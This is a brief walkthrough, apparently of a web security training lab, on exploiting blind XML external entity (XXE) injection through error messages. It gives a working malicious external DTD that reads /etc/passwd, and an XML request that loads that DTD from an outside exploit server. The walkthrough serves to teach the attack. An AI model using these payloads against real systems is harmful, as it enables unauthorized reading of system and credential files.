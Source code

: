 # Exploiting blind XXE to retrieve data via error messages

## This lab has a "Check stock" feature that parses XML input but does not display the result.

## To solve the lab, use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file.

## The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

---

### step 1

copy the line below to exploit url

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

save and click on exploite

note down exploit url
https://exploit-0a3c000704fe7e1fc75652b1019d0014.exploit-server.net/exploit

step2
copy to xml file
https://exploit-0a3c000704fe7e1fc75652b1019d0014.exploit-server.net/exploit

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a3c000704fe7e1fc75652b1019d0014.exploit-server.net/exploit"> %xxe;]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

send request
